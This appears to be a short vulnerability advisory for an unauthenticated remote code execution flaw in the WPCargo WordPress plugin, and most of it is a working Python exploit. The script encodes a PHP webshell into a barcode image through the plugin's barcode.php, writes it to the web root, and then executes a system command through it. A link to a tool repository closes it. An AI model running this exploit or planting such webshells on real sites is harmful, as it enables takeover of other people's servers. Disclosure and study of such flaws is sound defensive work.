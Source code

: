 ## WPCargo < 6.9.0 - Unauthenticated RCE

### Description

The plugin contains a file which could allow unauthenticated attackers to write a PHP file anywhere on the web server, leading to RCE

### Proof of Concept

```bash
import sys
import binascii
import requests

# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')

text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]

destination_url = 'http://127.0.0.1:8001/'
cmd = 'ls'

# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)

# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
    f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
```

### 工具

https://github.com/biulove0x/CVE-2021-25003